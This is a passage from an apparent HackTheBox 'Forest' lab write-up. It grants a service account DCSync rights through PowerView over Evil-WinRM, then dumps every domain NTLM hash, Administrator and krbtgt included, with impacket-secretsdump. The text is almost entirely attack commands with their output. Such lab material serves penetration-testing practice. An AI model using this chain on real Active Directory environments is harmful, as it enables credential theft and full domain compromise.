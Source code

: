 again, didnt work, altho i have permissions, try convert htb.local to LDAP syntax, which is htb.local -> "DC=htb,DC=local")
```
net group "EXCHANGE WINDOWS PERMISSIONS" svc-alfresco /add /domain
$SecPassword = ConvertTo-SecureString 's3rvice' -AsPlainText -Force 
$Cred = New-Object System.Management.Automation.PSCredential('htb.local\svc-alfresco', $SecPassword)
Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=htb,DC=local" -Rights DCSync -PrincipalIdentity svc-alfresco -Verbose

```
```
*Evil-WinRM* PS C:\users\administrator> $SecPassword = ConvertTo-SecureString 's3rvice' -AsPlainText -Force 
*Evil-WinRM* PS C:\users\administrator> $Cred = New-Object System.Management.Automation.PSCredential('htb.local\svc-alfresco', $SecPassword)
*Evil-WinRM* PS C:\users\administrator> Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=htb,DC=local" -Rights DCSync -PrincipalIdentity svc-alfresco -Verbose
Verbose: [Get-Domain] Using alternate credentials for Get-Domain
Verbose: [Get-Domain] Extracted domain 'htb.local' from -Credential
Verbose: [Get-DomainSearcher] search base: LDAP://FOREST.htb.local/DC=htb,DC=local
Verbose: [Get-DomainSearcher] Using alternate credentials for LDAP connection
Verbose: [Get-DomainObject] Get-DomainObject filter string: (&(|(|(samAccountName=svc-alfresco)(name=svc-alfresco)(displayname=svc-alfresco))))
Verbose: [Get-Domain] Using alternate credentials for Get-Domain
Verbose: [Get-Domain] Extracted domain 'htb.local' from -Credential
Verbose: [Get-DomainSearcher] search base: LDAP://FOREST.htb.local/DC=htb,DC=local
Verbose: [Get-DomainSearcher] Using alternate credentials for LDAP connection
Verbose: [Get-DomainObject] Extracted domain 'htb.local' from 'DC=htb,DC=local'
Verbose: [Get-DomainSearcher] search base: LDAP://DC=htb,DC=local
Verbose: [Get-DomainSearcher] Using alternate credentials for LDAP connection
Verbose: [Get-DomainObject] Get-DomainObject filter string: (&(|(distinguishedname=DC=htb,DC=local)))
Verbose: [Add-DomainObjectAcl] Granting principal CN=svc-alfresco,OU=Service Accounts,DC=htb,DC=local 'DCSync' on DC=htb,DC=local
Verbose: [Add-DomainObjectAcl] Granting principal CN=svc-alfresco,OU=Service Accounts,DC=htb,DC=local rights GUID '1131f6aa-9c07-11d1-f79f-00c04fc2dcd2' on DC=htb,DC=local
Verbose: [Add-DomainObjectAcl] Granting principal CN=svc-alfresco,OU=Service Accounts,DC=htb,DC=local rights GUID '1131f6ad-9c07-11d1-f79f-00c04fc2dcd2' on DC=htb,DC=local
Verbose: [Add-DomainObjectAcl] Granting principal CN=svc-alfresco,OU=Service Accounts,DC=htb,DC=local rights GUID '89e95b76-444d-4c62-991a-0facbeda640c' on DC=htb,DC=local

```
12: run impack on local linux
```impacket-secretsdump htb.local/svc-alfresco:'s3rvice'@forest.htb -dc-ip 10.10.10.161
```
```
kali㉿kali)-[~/Desktop/htb_prep/forest]
└─$ impacket-secretsdump htb.local/svc-alfresco:'s3rvice'@forest.htb -dc-ip 10.10.10.161
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\sebastien:1145:aad3b435b51404eeaad3b435b51404ee:96246d980e3a8ceacbf9069173fa06fc:::
htb.local\lucinda:1146:aad3b435b51404eeaad3b435b51404ee:4c2af4b2cd8a15b1ebd0ef6c58b879c3:::
htb.local\svc-alfresco:1147:aad3b435b51404eeaad3b435b51404ee:9248997e4ef68ca2bb47ae4e6f128668:::
htb.local\andy:1150:aad3b435b51404eeaad3b435b51404ee:29dfccaf39618ff101de5165b19d524b:::
htb.local\mark:1151:aad3b435b51404eeaad3b435b51404ee:9e63ebcb217bf3c6b27056fdcb6150f7:::
htb.local\santi:1152:aad3b435b51404eeaad3b435b51404ee:483d4c70248510d8e0acb6066cd89072:::
FOREST$:1000:aad3b435b51404eeaad3b435b51404ee:449a0904cdf152ae9e679ded9c7bb30d:::
```